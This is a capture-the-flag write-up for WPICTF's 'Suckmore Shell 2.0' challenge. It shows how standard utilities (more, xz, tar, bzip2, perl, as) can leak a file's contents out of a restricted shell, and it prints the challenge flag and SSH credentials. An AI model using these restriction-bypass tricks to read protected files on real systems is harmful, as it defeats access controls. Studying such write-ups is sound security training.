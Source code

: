 ## Suckmore Shell 2.0 (200pt)

### Description

> After its abysmal performance at WPICTF  2019, suckmore shell v1 has been replaced with a more secure, innovative and performant version, aptly named suckmore shell V2. 
>
> `ssh smsh@smsh.wpictf.xyz` pass: `suckmore>suckless` 
>
> made by: acurless

### Solution

Here are some kinds of cmd can use to leak content of files:

* file viewer (`more`)
* compress/decompress cmd (`xz`, `tar`, `bzip2`)
* Language interpreter/assembler (`perl`, `as` )

#### File viewer

Use `more` command to view flag directly:
```bash
> more flag
echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
```

#### Compress/decompress

Some cmd (with or without options) can print content of file during compress/decompress process

```bash
> xz flag
�7zXZ�ִF!t/�/echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
�r����`�H0�@�>��}YZ> ls
```

```bash
> tar cvf a.tar flag
flag
> tar xvf a.tar
flag
echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
```

```bash
> bzip2 flag
> bzip2 -c -d flag.bz2
echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
```

#### Language interpreter/assembler

Error information of language interpreter/assembler may print the content of files:

```bash
> perl flag
String found where operator expected at flag line 1, near "echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}""
    (Do you need to predeclare echo?)
syntax error at flag line 1, near "echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}""
Execution of flag aborted due to compilation errors.
```

```bash
> as flag
flag: Assembler messages:
flag:1: Error: no such instruction: `echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"'
```
